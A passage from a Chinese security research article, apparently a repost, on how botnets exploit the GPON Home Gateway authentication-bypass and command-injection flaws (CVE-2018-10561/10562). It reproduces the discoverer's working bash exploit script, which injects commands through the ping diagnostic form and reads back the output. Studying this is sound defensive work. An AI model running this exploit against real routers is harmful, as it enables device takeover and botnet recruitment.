 > 原文链接: https://www.anquanke.com//post/id/144673 


# GPON Home Gateway 远程命令执行漏洞被利用情况


                                阅读量   
                                **111420**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t014d36b839977cba0a.jpg)](https://p4.ssl.qhimg.com/t014d36b839977cba0a.jpg)

2018/05/07，ZoomEye Dork(文末有彩蛋)中heige吟诗一首(作者：卞之琳)：<br>
断章<br>
你在桥上看风景，<br>
看风景人在楼上看你。<br>
明月装饰了你的窗子，<br>
你装饰了别人的梦。<br>
殊不知在GPON Home Gateway远程命令执行漏洞被利用的过程中亦是如此。



## 0x00前言

### 一. 漏洞详情

2018/04/30，vpnMentor公布了 GPON 路由器的高危漏洞：验证绕过漏洞(CVE-2018-10561)和命令注入漏洞(CVE-2018-10562)。由于只需要发送一个请求，就可以在 GPON路由器 上执行任意命令，所以在上一篇文章《GPON Home Gateway 远程命令执行漏洞分析》，我们给出了僵尸网络的相关预警。<br>
结合ZoomEye网络空间搜索引擎以及对漏洞原理的详细研究，我们对GPON Home Gateway远程命令执行漏洞被利用情况进行了深入的研究，意外地发现利用该漏洞的僵尸网络是可以被监控的。<br>
短短的四天时间内，这片路由器的战场，竞争、撤退、消亡时时刻刻都在上演，在每一个路由器的背后，每天都有着多个不同的恶意控制者，故事精彩得难以想象。

### 二. 检测原理

漏洞发现者给出的利用脚本如下：

```
#!/bin/bash
echo “[+] Sending the Command… “
# We send the commands with two modes backtick () and semicolon (;) because different models trigger on different devices
curl -k -d “XWebPageName=diag&amp;diag_action=ping&amp;wan_conlist=0&amp;dest_host=$2`;$2&amp;ipv=0” $1/GponForm/diag_Form?images/ 2&gt;/dev/null &gt;/dev/null
echo “[+] Waiting….”
sleep 3
echo “[+] Retrieving the ouput….”
curl -k $1/diag.html?images/ 2&gt;/dev/null | grep ‘diag_result = ‘ | sed -e ‘s/n/n/g’
```

该脚本逻辑如下：
